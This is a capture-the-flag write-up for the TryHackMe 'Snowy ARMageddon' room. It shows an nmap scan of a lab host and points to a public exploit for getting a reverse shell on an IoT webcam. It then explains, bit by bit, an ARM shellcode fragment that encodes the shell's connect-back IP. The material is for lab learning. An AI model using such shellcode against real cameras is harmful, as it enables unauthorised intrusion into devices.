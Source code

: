 
# Snowy ARMageddon
https://tryhackme.com/r/room/armageddon2r

## What is the content of the first flag?

I started with nmap:

```shell
┌──(kali㉿kali)-[~]
└─$ nmap -T4 -p- 10.10.203.91 
PORT      STATE SERVICE
22/tcp    open  ssh
23/tcp    open  telnet
8080/tcp  open  http-proxy
50628/tcp open  unknown
```

The device at 10.10.203.91:50628 is a Webcamera. After googling a bit, I found a relevant blog post: [ARM-X Challenge: Breaking the webs | no-sec.net](https://no-sec.net/arm-x-challenge-breaking-the-webs/). The blog post contains an exploit that was used to gain a reverse shell on the same camera.

To create my own little-endian code from ARM assembly, I used this site: [Online Assembler and Disassembler](https://shell-storm.org/online/Online-Assembler-and-Disassembler).

This part of the ARM Assembly code needs to match with my IP. Let's break it down to understand what it means. I used the same IP as in the blog in this explanation.

```assembly
mov r1, #0x164
lsl r1, #8
add r1, #0xa8
lsl r1, #8
add r1, #0xc0
push {r1}       // 192.168.100.1
```

- `mov`: Move an immediate value into a register.
- `lsl`: Logical left shift, shifts the bits in a register to the left.
- `add`: Add an immediate value to a register.
- `push`: Push a register onto the stack.
- `#0x164`: Hexadecimal `164`, which in binaries is `0001 0110 0100`.

We can understand how this goes inside that R1 when we break it down to binaries.

| Details           | BYTE           | BYTE           | BYTE           | BYTE           |
|-------------------|----------------|----------------|----------------|----------------|
| **Starting point** | 0000 0000       | 0000 0000       | 0000 0000       | 0000 0000       |

The first command in the ARM is "`mov r1, #0x164`," which means `0001 0110 0100` in binaries and in decimals that is `1 & 100`. We can see that it goes into bytes as following:

|               | BYTE           | BYTE           | BYTE           | BYTE           |
|---------------|----------------|----------------|----------------|----------------|
|               | 0000 0000       | 0000 0000       | 0000 **0001**  | **0110 0100**  |
| **Decimals**  |                |                | 1              | 100            |
